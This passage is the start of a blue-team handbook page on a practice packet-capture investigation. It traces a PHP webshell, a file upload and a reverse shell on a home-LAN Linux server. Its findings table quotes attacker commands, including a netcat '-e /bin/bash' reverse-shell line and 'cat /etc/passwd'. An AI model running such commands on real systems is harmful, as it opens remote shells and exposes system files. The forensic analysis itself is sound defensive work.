

repository: DFIDwiz-sketch/dfir-handbook · page: blueteam/investigations/wittyserver-minishell-webshell-reverse-shell/index.html · generator: mkdocs

---
title: Witty server — Splunk-first baselining to a PHP webshell (minishell.php), a file upload and a reverse shell inside a home LAN
tags:
  - blue-team
  - pcap
  - splunk
  - zeek
  - arkime
  - snort
  - webshell
  - reverse-shell
  - linux
---

# Witty server — PHP webshell, file upload and a reverse shell inside a home LAN { #wittyserver }

!!! abstract "Case summary"
    A 5-minute practice PCAP from a **home network** (192.168.1.0/24, no domain), worked **Splunk-first** with Arkime for packet content. It is **not a malware infection**: a Windows 10 PC (**192.168.1.102**) uses a PHP **webshell, `minishell.php`**, already sitting on a Kali Linux web server (**wittyserver, 192.168.1.100**, Apache on port **55555**). Through the webshell it uploads `cerber4.PNG` to `/tmp`, runs `cat /etc/passwd`, and starts a **PHP reverse shell**. The first two tries to 192.168.1.102:4444 fail; the third, to **192.168.1.101:4444**, works and gives a shell as **www-data** for 2 minutes. The page also shows why most internet connections look empty (one-direction capture), why an image on an external site is **not** C2, and why initial access cannot be seen.

| | |
|---|---|
| **Evidence** | Practice PCAP, 2017-01-20 09:53:28 – 09:58:40 UTC (about 5 min). Source not recorded |
| **Environment** | Closed network. Splunk with Zeek logs (`index=zeek`) and Arkime, **only this PCAP loaded** (no case field or tag needed). **No Wireshark.** |
| **Deliverables** | Analysis, one Snort rule |
| **Related pages** | [BEGUILESOFT — HawkEye over FTP](beguilesoft-hawkeye-ftp-exfil.md) (same baselining method) · [Playbook: web shell / server](../playbooks/webshell-server.md) · [SPL cheat sheet](../splunk/spl-cheatsheet.md) · [Zeek conn.log](../../network/zeek/conn-log.md) · [Arkime search syntax](../../network/arkime/search-syntax.md) |

!!! tip "How to read this page"
    Same order as the analysis: **baselining → odd signs → HTTP → connections and files → Arkime content → initial access → Snort**. New SPL commands and fields are explained where they first appear. The **Question** boxes are real questions from the session.

!!! warning "The indicators on this page are real"
    Domains and IPs come from a real capture. Prose and tables are defanged (`[.]`); code blocks keep values as typed. **Do not visit them.**

## Answers at a glance { #answers }

| Item | Answer | Status |
|---|---|---|
| Network | Home LAN 192.168.1.0/24, router 192.168.1.1, ISP DNS 75.75.75.75 / 75.75.76.76 (Comcast). No DHCP, no domain | Confirmed |
| Impacted host | **192.168.1.100 wittyserver**, Kali Linux, Apache/2.4.18 on port 55555, MAC `6c:0b:84:6a:1d:d8` | Confirmed |
| Webshell operator | **192.168.1.102**, Windows 10, Chrome 55, MAC `90:e6:ba:96:43:32` (ASUSTek), possible host name RY4WN-PC | Confirmed (host name inferred) |
| Reverse shell listener | **192.168.1.101**, port 4444 (also runs SSH on 22) | Confirmed |
| Webshell | `/minishell.php`, login cookie `user=ry4wn`, pass = MD5 of `password` | Confirmed |
| Actions | Upload `cerber4.PNG` (real PNG) to `/tmp`; `cat /etc/passwd`; reverse shell; `ls`, `id`, `cd /tmp`, `nc -nv 192.168.1.100 5555 -e /bin/bash` | Confirmed |
| Reverse shell | to .102:4444 → failed (S0); to **.101:4444 → success**, 120 s, as `www-data` | Confirmed |
| Root access | Not seen | Confirmed (in capture) |
| Initial access | Not in the capture — `minishell.php` was already on the server | Confirmed (absence) |

---

## Step 0 — Before the first query { #prep }

Only this PCAP was ingested, so the `pcap_case` filter used in other cases is **not needed**: `index=zeek` alone is this case. In Arkime no `tags ==` filter is needed either.

- **Time range = All time** (the data is from 2017).
- **Splunk time zone = UTC** so `strftime` prints UTC.

---

## Step 1 — Baselining { #baseline }

The same six queries as the [BEGUILESOFT case](beguilesoft-hawkeye-ftp-exfil.md#baseline), without `pcap_case`. Line-by-line explanations are there; only new parts are explained here.
